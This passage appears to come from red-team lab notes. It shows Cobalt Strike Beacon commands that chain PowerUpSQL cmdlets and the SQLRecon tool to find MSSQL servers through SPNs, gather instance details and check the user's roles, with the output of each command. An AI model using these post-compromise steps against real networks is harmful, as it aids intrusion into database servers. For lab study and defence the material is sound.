 ```powershell
ActiveSessions         : 1
```
If there are multiple SQL Servers available, you can chain these commands together to automate the data collection 
`beacon> powershell Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo`

SQLRecon can also enumerate servers via SPNs and fetch information about the instance with the `info` module
```powershell
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /enum:sqlspns
[*] Tasked beacon to run .NET program: SQLRecon.exe /enum:sqlspns
[+] host called home, sent: 307478 bytes
[+] received output:
[*] Looking for MSSQL SPNs ...
[*] 1 found.

 |-> ComputerName:  sql-2.dev.cyberbotic.io
 |-> Instance:      sql-2.dev.cyberbotic.io:1433
 |-> AccountSid:    S-1-5-21-569305411-121244042-2357301523-1115
 |-> AccountName:   mssql_svc
 |-> AccountCn:     MS SQL Service
 |-> Service:       MSSQLSvc
 |-> SPN:           MSSQLSvc/sql-2.dev.cyberbotic.io:1433
 |-> LastLogon:     1/24/0423 12:48:15 PM
```
more `enum`
```powershell
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /auth:wintoken /host:sql-2.dev.cyberbotic.io /module:info

[*] Extracting SQL Server information from sql-2.dev.cyberbotic.io

 |-> ComputerName:           SQL-2
 |-> DomainName:             DEV
 |-> ServicePid:             4388
 |-> ServiceName:            MSSQLSERVER
 |-> ServiceAccount:         DEV\mssql_svc
 |-> AuthenticationMode:     Windows Authentication
 |-> ForcedEncryption:       0
 |-> Clustered:              No
 |-> SqlServerVersionNumber: 15.0.2000.5
 |-> SqlServerMajorVersion:  2019
 |-> SqlServerEdition:       Standard Edition (64-bit)
 |-> SqlServerServicePack:   RTM
 |-> OsArchitecture:         X64
 |-> OsVersionNumber:        2022
 |-> CurrentLogin:           DEV\bfarmer
 |-> IsSysAdmin:             No
 |-> ActiveSessions:         1
```
The `/auth:wintoken` option allows SQLRecon to use the access token of the Beacon.  This output shows that whilst the database is accessible, our current user, bfarmer, is not a sysadmin.  SQLRecon has a nice module which can show us what roles we do have.
```powershell
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:whoami

[*] Determining user permissions on sql-2.dev.cyberbotic.io,1433
[*] Logged in as DEV\bfarmer
[*] Mapped to the user guest
[*] Roles:
 |-> User is a member of public role.
 |-> User is NOT a member of db_owner role.
```